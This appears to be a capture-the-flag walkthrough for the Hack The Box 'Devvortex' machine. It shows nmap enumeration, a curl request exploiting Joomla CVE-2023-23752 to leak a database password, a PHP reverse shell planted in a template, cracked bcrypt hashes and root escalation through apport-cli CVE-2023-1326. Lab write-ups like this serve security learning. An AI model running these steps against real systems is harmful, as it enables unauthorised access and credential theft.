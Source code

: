 # **Machine Info**

| OS        | Linux    |
| --------- | -------- |
| **Level** | **Easy** |


# **Walkthrough**
## **Enumeration**
1. Scanning the open ports first revels two ports 22 and 80 running ssh and http.
```
	$sudo nmap -p- --min-rate 10000 -oA portScan 10.10.11.242
	Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-13 18:14 +0545
	Nmap scan report for 10.10.11.242 (10.10.11.242)
	Host is up (0.33s latency).
	Not shown: 65533 closed tcp ports (reset)
	PORT   STATE SERVICE
	22/tcp open  ssh
	80/tcp open  http
```

2. Further scanning the open port for the service version along with default set script.
```
	$sudo nmap -sC -sV -p22,80 --min-rate 10000 -oA serviceScan 10.10.11.242
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-13 18:15 +0545
Nmap scan report for 10.10.11.242 (10.10.11.242)
Host is up (0.33s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://devvortex.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.81 seconds

```

3. Adding the domain name in our `/etc/hosts` file.
	- ![](Assets/Pasted%20image%2020250313183443.png)

4. This is the website running in the 80 port.
	![](Assets/Pasted%20image%2020250320033427.png)

5. During subdomain enumeration, I discovered `dev.devvortex.htb`.
	![](Assets/Pasted%20image%2020250320033021.png)
	- I then updated the `/etc/hosts` file to include this new subdomain. Upon visiting `dev.devvortex.htb`, I noticed that the website appeared different from the main domain.

6. After the directory enumeration on the new sub-domain, i found a few of status 200 which indicate success and lots of status 403 which mean access to the following resources were forbidden.
	- ![](Assets/Pasted%20image%2020250320040449.png)
	- Here are all the directory name of status code 200 with size. Among it, i found `/robots.txt` interesting as it might contain other hidden directories. Robot.txt is the page containing instruction for bot, like web crawler, which web page to access and not to access.
		```
		/index.php            (Status: 200) [Size: 23221]
		/LICENSE.txt          (Status: 200) [Size: 18092]
		/robots.txt           (Status: 200) [Size: 764]
		/.                    (Status: 200) [Size: 23221]
		/configuration.php    (Status: 200) [Size: 0]
		/README.txt           (Status: 200) [Size: 4942]
		/htaccess.txt         (Status: 200) [Size: 6858]
		```

7. I then visited the `robot.txt` directory and know that it is running Zoomla CMS (Content Management System). Then i ran zoomscan, a zoomla vulnerability scanner, on the site, which detected the version name `4.2.6`. A google search reveal that, the version is vulnerable to improper access check leading to unauthorised access (CVE-2023-23752). 
	```
	
	[+] FireWall Detector
	[++] Firewall not detected
	
	[+] Detecting Joomla Version
	[++] Joomla 4.2.6
	
	[+] Core Joomla Vulnerability
	[++] Target Joomla core is not vulnerable
	
	[+] Checking apache info/status files
	[++] Readable info/status files are not found
	
	[+] admin finder
	[++] Admin page : http://dev.devvortex.htb/administrator/
	
	[+] Checking robots.txt existing
	[++] robots.txt is found
	path : http://dev.devvortex.htb/robots.txt 
	
	Interesting path found from robots.txt
	http://dev.devvortex.htb/joomla/administrator/
	http://dev.devvortex.htb/administrator/
	http://dev.devvortex.htb/api/
	http://dev.devvortex.htb/bin/
	http://dev.devvortex.htb/cache/
	http://dev.devvortex.htb/cli/
	http://dev.devvortex.htb/components/
	http://dev.devvortex.htb/includes/
	http://dev.devvortex.htb/installation/
	http://dev.devvortex.htb/language/
	http://dev.devvortex.htb/layouts/
	http://dev.devvortex.htb/libraries/
	http://dev.devvortex.htb/logs/
	http://dev.devvortex.htb/modules/
	http://dev.devvortex.htb/plugins/
	http://dev.devvortex.htb/tmp/
	
	
	[+] Finding common backup files name
	[++] Backup files are not found
	
	[+] Finding common log files name
	[++] error log is not found
	
	[+] Checking sensitive config.php.x file
	[++] Readable config files are not found
	```

8. Exploiting the vulnerability, I got the user credential.
```
	curl  http://dev.devvortex.htb/api/index.php/v1/config/application?public=true
```
`{"type":"application","id":"224","attributes":{"user":"lewis","id":224}},{"type":"application","id":"224","attributes":{"password":"P4ntherg0t1n5r3c0n##","id":224}},{"type":"application","id":"224","attributes":{"db":"joomla","id":224}},{"type":"application","id":"224","attributes":{"dbprefix":"sd4fg_","id":224}},`

- Then i logged in to `/administrator/index.php` with the credential and got access to the administrator dashboard.
- ![](Assets/Pasted%20image%2020250320053843.png)
- ![](Assets/Pasted%20image%2020250320053911.png)

8. On `System > Site template`, It seems that we can view, make changes and save the backend code from the frontend administrator account. So, I change the code in `error.php`  to reverse shell code php code from pentest monkey. Then, visited the `/administrator/error.php` giving us the reverse shell. 
	- ![](Assets/Pasted%20image%2020250320230422.png)

	- ![](Assets/Pasted%20image%2020250320230558.png)

	- ![](Assets/Pasted%20image%2020250320230649.png)


9. Then  I ran `linpea.sh` script by opening the http server in my machine and wget the file from victim machine. I found that there is port `3306` which is default for MYSQL service.
	- ![](Assets/Pasted%20image%2020250320234708.png)
	- I logged into mysql with the user lewis credential. And dump 2 user and password hashes.
	- ![](Assets/Pasted%20image%2020250320235445.png)

	- ![](Assets/Pasted%20image%2020250320235349.png)

	- ![](Assets/Pasted%20image%2020250321000216.png)

	Credentials:
	```
	lewis : $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u
	logan : $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12
	```

10. I stored the hash in `hash.txt` file and use hashcat tool to, first find the hash type, and then crack the hash.
	- ![](Assets/Pasted%20image%2020250321001714.png)
	- ![](Assets/Pasted%20image%2020250321001452.png)
		Cracked Logan Password:
`$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12:tequieromucho

11. I ssh with the local user and cracked hash password and found the user flag.
	![](Assets/Pasted%20image%2020250321002121.png)
	![](Assets/Pasted%20image%2020250321002227.png)



## **Privilege Escalation**

12. `sudo -l` command which give list any command we can run as sudo without needing password. I found that we can run `/usr/bin/apport-cli` as sudo without password.
	 `apport-cli is a command line tool used in ubuntu to report crashes and bugs.`
	 ![](Assets/Pasted%20image%2020250321013221.png)
	 
13. The version of `apport-cli 2.20.11` is vulnerable to `CVE-2023-1326` [Here is the POC](https://github.com/diego-tella/CVE-2023-1326-PoC).
	![](Assets/Pasted%20image%2020250321013348.png)
	- I didn't created a crash file, instead report the bug through command line. After collecting the information and before sending the bug report, we can view the report, where we can leverage and run our command and get root shell.
	![](Assets/Pasted%20image%2020250321011010.png)
	![](Assets/Pasted%20image%2020250321011054.png)

	![](Assets/Pasted%20image%2020250321011117.png)

	![](Assets/Pasted%20image%2020250321011246.png)

	![](Assets/Pasted%20image%2020250321011214.png)

14. I got the root shell and view flag in `root.txt`.
	![](Assets/Pasted%20image%2020250321011332.png)


